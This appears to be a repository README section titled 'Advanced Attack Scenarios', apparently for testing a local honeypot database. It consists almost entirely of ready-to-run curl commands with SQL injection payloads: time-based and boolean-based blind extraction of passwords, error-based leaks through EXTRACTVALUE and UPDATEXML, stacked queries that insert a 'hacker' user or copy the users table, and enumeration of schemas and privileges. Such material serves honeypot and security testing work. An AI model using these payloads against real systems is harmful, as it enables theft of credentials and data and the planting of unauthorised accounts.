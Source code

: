 ## Advanced Attack Scenarios

### 1. Blind SQL Injection (MEDIUM-HIGH)
These attacks attempt to extract data without seeing the direct output.

```bash
# Time-based blind injection
curl "http://localhost:9000/api/products?category=1' AND IF(SUBSTRING(DATABASE(),1,1)='h',SLEEP(2),0) --"

# Boolean-based blind injection
curl "http://localhost:9000/api/products?category=1' AND ASCII(SUBSTRING((SELECT password FROM users LIMIT 1),1,1))>50 --"
```

### 2. Error-Based Injection (HIGH)
Exploiting database errors to extract information.

```bash
# Using EXTRACTVALUE for error messages
curl "http://localhost:9000/api/products?category=1' AND EXTRACTVALUE(1,CONCAT(0x7e,(SELECT @@version),0x7e)) --"

# Using UPDATEXML for data extraction
curl "http://localhost:9000/api/products?category=1' AND UPDATEXML(1,CONCAT(0x7e,(SELECT table_name FROM information_schema.tables LIMIT 1),0x7e),1) --"
```

### 3. Stacked Queries (CRITICAL)
Multiple SQL statements in one query.

```bash
# Multiple operations
curl "http://localhost:9000/api/products?category=1'; INSERT INTO users (username,password) VALUES ('hacker','pwd'); --"

# Backup table creation
curl "http://localhost:9000/api/products?category=1'; CREATE TABLE backup AS SELECT * FROM users; --"
```

### 4. Advanced Schema Analysis (CRITICAL)
Detailed database structure enumeration.

```bash
# Column enumeration
curl "http://localhost:9000/api/products?category=1' UNION ALL SELECT NULL,column_name,NULL,table_name,NULL FROM information_schema.columns WHERE table_schema='honeypot_db' --"

# Privilege enumeration
curl "http://localhost:9000/api/products?category=1' UNION ALL SELECT NULL,grantee,NULL,privilege_type,NULL FROM information_schema.user_privileges --"
```
